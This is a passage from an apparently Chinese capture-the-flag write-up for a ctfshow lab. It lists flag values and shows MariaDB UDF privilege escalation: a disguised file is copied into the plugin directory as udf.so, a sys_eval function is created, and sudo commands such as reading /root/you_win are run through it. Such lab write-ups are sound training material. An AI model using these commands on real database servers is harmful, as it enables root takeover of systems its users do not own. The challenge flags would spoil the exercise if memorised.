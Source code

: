 ctfshow{5526710eb3ed7b4742232d6d6f9ee3a9}    /secret.txt

![image-20211104181931001](images/image-20211104181931001.png)

## flag_654

### udf提权

上传udf.so

cp /var/www/html/system36d/db/data_you_never_know.db /usr/lib/mariadb/plugin/udf.so  

连接数据库

create function sys_eval returns string soname "udf.so";  

SELECT sys_eval('sudo whoami');

ctfshow{4ab2c2ccd0c3c35fdba418d8502f5da9}     /root/you_win

SELECT sys_eval('sudo cat /root/you_win');

```
祝贺你，你已经完全控制了这台服务器，为你一路以来的坚持和努力，点赞！

                  真不容易啊，师傅好样的！

不过别高兴的太早，这只是第一关，后面还有更艰难的挑战，你准备好了吗！

对了，这是给你的flag 

flag_654=ctfshow{4ab2c2ccd0c3c35fdba418d8502f5da9} 

                                   ——大菜鸡 2021年8月2日02时12�
```

## 内网探测
